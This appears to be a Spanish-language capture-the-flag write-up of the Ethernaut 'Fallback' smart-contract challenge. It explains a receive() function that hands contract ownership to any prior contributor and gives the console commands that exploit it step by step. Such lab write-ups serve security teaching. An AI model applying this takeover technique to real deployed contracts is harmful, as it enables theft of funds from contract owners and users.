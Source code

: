 # La importancia de una función fallback segura
Este contrato cuenta con un mecanismo de contribuciones y una función fallback que se ejecuta cuando el contrato recibe fondos sin haber pasado por una función del propio contrato.

El constructor establece una contribución de 1000 ETH para el propietario, y para clasificar como contribución, se debe enviar una cantidad menor de 0.001 ETH.
El jugador debe aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.

El objetivo del jugador es aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.
```solidity
contract Fallback {
...
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
  ...
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
 ...
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
- Contrato Original: [Fallback](Fallback.sol)

---
## Conceptos
- La función fallback: En Solidity es una función especial que se ejecuta automáticamente cuando se envía una transacción a un contrato sin especificar una función en particular.
- Wei: Es la unidad más pequeña de Ethereum y representa la cantidad mínima divisible de ether.
---
### Conseguir el owner del contrato
Hay 2 formas de llegar al owner.

- (EXPECTED) Teniendo más contribuciones que el actual owner (1000 ETH) que se asignó en el constructor.

Tendremos que tener mas de 1000 ETH de contribuciones y por cada contribucion como maximo podemos enviar 0.001 ETH para llegar a superar al owner. (No merece la pena por la cantidad excesiva de transacciones)
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- (UNEXPECTED) Aprovechandonos de la funcion fallback vulnerable a escalar a owner
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
---

### Como ejecutamos la funcion fallback "receive()"?
Requisitos:
- El valor que se envie al contrato sea mayor a 0
- Las contribuciones del que cae en la funcion sea mayor a 0
```solidity
 require(msg.value > 0 && contributions[msg.sender] > 0);
 ```

Checkeamos cuantas contribuciones tenemos:
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0'
```

Para conseguir contribuciones tenemos que enviar MENOS de 0.001 ETH usando la funcion contribute()
```solidity
require(msg.value < 0.001 ether);
contributions[msg.sender] += msg.value;
```

1- Enviamos 0.0009 ETH que es menos de 0.001 ETH que es el maximo para realizar una contribucion.
```js
-> await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
<- {tx: '0xtx', receipt:...}
```
2- Comprobamos que hemos hecho una contribucion
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0.0009'
```

Ya tenemos el requisito de tener contribuciones mayor a 0 para que la funcion fallback se ejecute.
Para que se ejecute receive tenemos que enviar algo de ETH al contrato

```js
-> await sendTransaction({from: player, to: contract.address, value: toWei('0.0000001')})
<- '0xtx...'
```

Ya somos el owner dado a que hemos complido los requisitos de la funcion receive para que el valor owner sea el msg.sender.

```js
-> await contract.owner()
<- '0xnuestrawallet'
```

